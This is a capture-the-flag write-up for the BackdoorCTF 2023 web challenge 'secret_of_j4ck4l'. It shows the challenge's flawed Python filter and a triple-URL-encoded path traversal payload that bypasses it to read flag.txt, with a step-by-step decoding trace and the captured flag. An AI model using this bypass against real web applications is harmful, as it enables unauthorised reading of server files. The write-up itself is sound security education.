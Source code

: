 ```yaml
---
title: "secret_of_j4ck4l"
description: "I left a message for you. You will love it definitely"
pubDate: 2023-12-18
ctf: "BackdoorCTF 2023"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/23-backdoor/icon.png"
imageDir: "images/23-backdoor"
---
```


`http://x.x.x.x:8003/read_secret_message?file=message`

This is a website that seems to read a local file from a parameter `file`, so immediately keeping an eye out for LFI before looking at the source code.

The code has a very... interesting filtering system.
```python
def ignore_it(file_param):
	yoooo = file_param.replace('.', '').replace('/', '')
	if yoooo != file_param:
		return "Illegal characters detected in file parameter!"
	return yoooo

def another_useless_function(file_param):
	return urllib.parse.unquote(file_param)

def useless (file_param):
	file_param1 = ignore_it(file_param)
	file_param2 = another_useless_function(file_param1)
	file_param3 = ignore_it(file_param2)
	file_param4 = another_useless_function(file_param3)
	file_param5 = another_useless_function(file_param4)
	return file_param5
```

The issue with this 'filtering' is its incredibly reliant on just, hoping nobody tests it. The `ignore_it` function filters all instances of `.` and `/` found in the URL, but not for recursive URL encoding. 
Due to % in hex being `25` we can apply repeated url encoding to get our payload to bypass the filter.

Payload: `%25252e%25252e%25252fflag%25252etxt`

In the server the payload is parsed as follows: (each line is a line in the 'useless' function)

```
file_param = %25252e%25252e%25252fflag%25252etxt
fileparam1 = %252e%252e%252fflag%252etxt
fileparam2 = %2e%2e%2fflag%2etxt
fileparam3 = %2e%2e%2fflag%2etxt
fileparam4 = ../flag.txt
fileparam5 = ../flag.txt
```

After sending we get our flag back:

Flag: `flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}`

**Files:** [public.zip](https://web.archive.org/web/20231218155757/https://backdoor.infoseciitr.in/uploads?key=b0e84ea81114b302036097a2b11d446a0f82ead89ebc09a5bfc9ed70a4601607%2Fpublic.zip)